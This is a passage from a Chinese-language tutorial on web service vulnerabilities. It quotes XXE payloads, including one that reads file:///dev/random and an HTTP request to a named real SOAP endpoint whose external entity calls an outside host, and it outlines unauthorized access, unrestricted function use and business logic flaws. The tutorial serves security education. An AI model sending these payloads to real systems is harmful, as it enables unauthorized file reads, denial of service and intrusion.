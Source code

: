 

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE foo [
&lt;!ELEMENT foo ANY &gt;
&lt;!ENTITY xxe SYSTEM "file:///dev/random" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

我们以 “QIWI.ru”网站的SOAP型Web Service为例，分析其中的XXE漏洞（该漏洞由某位安全研究人员发现，具体研究报告可以参考此处资料）。

攻击者发往“https://send.qiwi.ru/soapserver”地址的载荷为：



```
POST /soapserver/ HTTP/1.1
Host: send.qiwi.ru
Content-Type: application/x-www-form-urlencoded
Content-Length: 254
&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE aa[&lt;!ELEMENT bb ANY&gt;&lt;!ENTITY xxe SYSTEM "https://bitquark.co.uk/?xxe"&gt;]&gt;
&lt;SOAP-ENV:Envelope&gt;
&lt;SOAP-ENV:Body&gt;
&lt;getStatus&gt;
&lt;id&gt;&amp;xxe;&lt;/id&gt;
&lt;/getStatus&gt;
&lt;/SOAP-ENV:Body&gt;
&lt;/SOAP-ENV:Envelope&gt;
```

关于XXE漏洞的更多信息，读者可以参考这里的相关资料。

**5.2 Web Service中的控制问题**

**5.2.1 未授权访问冲突**

当我们统计渗透测试的结果时，我们会发现未授权访问漏洞在Web Service中非常常见。主要的原因在于开发人员不认为未授权用户是攻击者，且理所当然认为Web Service是一个足够安全的环境。

为了避免这类漏洞存在，发往服务器的请求中必须包含令牌值或令牌信息（如用户名及密码信息）。

此外，与Web Service有关的所有函数都应该要求请求报文中包含用户会话信息。

**5.2.2 未限制函数使用范围**

Web Service中常见的一个问题就是不对函数的使用范围进行限制。这会导致以下问题存在：

1、暴力破解攻击

2、填充篡改数据库

3、滥用服务器赋予用户的权限

4、消耗服务器资源造成DDoS攻击

**5.3 Web Service中的业务逻辑漏洞**

此类漏洞的存在原因在于Web应用缺乏标准，每个开发人员所开发的Web应用各不相同。

因此，这是个漫长且无止境的话题。我们可以通过几个例子来稍加说明。

比如，我们来研究一下Twitter的RESTful Web Service中存在的漏洞（具体细节可以参考这个报告）。
